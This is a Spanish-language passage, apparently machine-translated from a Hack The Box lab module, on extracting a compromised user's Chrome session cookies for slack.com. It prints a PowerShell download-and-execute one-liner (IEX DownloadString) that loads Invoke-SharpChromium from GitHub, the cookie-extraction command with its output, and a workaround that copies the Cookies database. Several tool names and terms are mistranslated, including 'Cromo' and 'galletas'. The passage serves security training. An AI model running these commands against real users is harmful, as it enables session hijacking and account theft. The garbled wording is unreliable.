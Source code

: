 Para obtener el valor de la cookie, necesitaremos realizar una rutina de descifrado a partir de la sesión del usuario que comprometimos. Afortunadamente, una herramienta[Cromo](https://github.com/djhohnstein/SharpChromium)hace lo que necesitamos. Se conecta a la base de datos de cookies SQLite de usuario actual, descifra el valor de la cookie y presenta el resultado en formato JSON.

Usemos[Invocar-sharpchromium](https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1), un script de PowerShell creado por[S3CUR3TH1SSH1T](https://twitter.com/ShitSecure)que usa la reflexión para cargar SharpCromium.

#### PowerShell Script - Invoke -Sharpchromium

  Expoliación

```powershell-session
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSh
arpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')
PS C:\htb> Invoke-SharpChromium -Command "cookies slack.com"

[*] Beginning Google Chrome extraction.

[X] Exception: Could not find file 'C:\Users\lab_admin\AppData\Local\Google\Chrome\User Data\\Default\Cookies'.

   at System.IO.__Error.WinIOError(Int32 errorCode, String maybeFullPath)
   at System.IO.File.InternalCopy(String sourceFileName, String destFileName, Boolean overwrite, Boolean checkout)
   at Utils.FileUtils.CreateTempDuplicateFile(String filePath)
   at SharpChromium.ChromiumCredentialManager.GetCookies()
   at SharpChromium.Program.extract data(String path, String browser)
[*] Finished Google Chrome extraction.

[*] Done.
```

Recibimos un error porque la ruta del archivo de cookie que contiene la base de datos está codificada en[Cromo](https://github.com/djhohnstein/SharpChromium/blob/master/ChromiumCredentialManager.cs#L47)y la versión actual de Chrome usa una ubicación diferente.

Podemos modificar el código de`SharpChromium`O copie el archivo de cookies donde se ve SharpChromium.

`SharpChromium`está buscando un archivo en`%LOCALAPPDATA%\Google\Chrome\User Data\Default\Cookies`, pero el archivo real se encuentra en`%LOCALAPPDATA%\Google\Chrome\User Data\Default\Network\Cookies`Con el siguiente comando copiaremos el archivo a la ubicación que SharpChromium está esperando.

#### Copie las galletas a la ubicación esperada de Sharpchromium

  Expoliación

```powershell-session
PS C:\htb> copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"
```
